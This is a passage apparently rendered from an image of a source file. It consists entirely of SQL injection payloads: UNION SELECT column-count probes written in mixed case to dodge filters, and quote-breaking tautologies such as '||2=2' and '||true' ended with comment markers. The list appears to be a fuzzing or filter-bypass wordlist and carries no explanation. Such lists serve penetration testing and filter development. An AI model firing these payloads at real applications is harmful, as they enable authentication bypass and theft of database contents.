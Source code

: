 ```
" UniON SElecT 1,2#
" UniON SElecT 1,2,3#
" UniON SElecT 1,2,3,4#
" UniON SElecT 1,2,3,4,5#
"UniON(SElecT(1),2)-- 2
"UniON(SElecT(1),2,3)-- 2
"UniON(SElecT(1),2,3,4)-- 2
"UniON(SElecT(1),2,3,4,5)-- 2
"UniON(SElecT(1),2)#
"UniON(SElecT(1),2,3)#
"UniON(SElecT(1),2,3,4)#
"UniON(SElecT(1),2,3,4,5)#
'||'2
'||2-- 2
'||'2'||'
'||2#
'||2/*
'||2||'
"||"2
"||2-- 2
"||"2"||"
"||2#
"||2/*
"||2||"
'||'2'='2
'||'2'='2'||'
'||2=2-- 2
'||2=2#
'||2=2/*
'||2=2||'
"||"2"="2
"||"2"="2"||"
"||2=2-- 2
"||2=2#
"||2=2/*
"||2=2||"
'||2=(2)LimIT(1)-- 2
'||2=(2)LimIT(1)#
'||2=(2)LimIT(1)/*
"||2=(2)LimIT(1)-- 2
"||2=(2)LimIT(1)#
"||2=(2)LimIT(1)/*
'||true-- 2
'||true#
'||true/*
'||true||'
"||true-- 2
"||true#
"||true/*
"||true||"
'||'2'LiKE'2
'||'2'LiKE'2'-- 2
'||'2'LiKE'2'#
'||'2'LiKE'2'/*
'||'2'LiKE'2'||'
'||(2)LiKE(2)-- 2
'||(2)LiKE(2)#
'||(2)LiKE(2)/*
'||(2)LiKE(2)||'
"||"2"LiKE"2
"||"2"LiKE"2"-- 2
"||"2"LiKE"2"#
"||"2"LiKE"2"/*
```
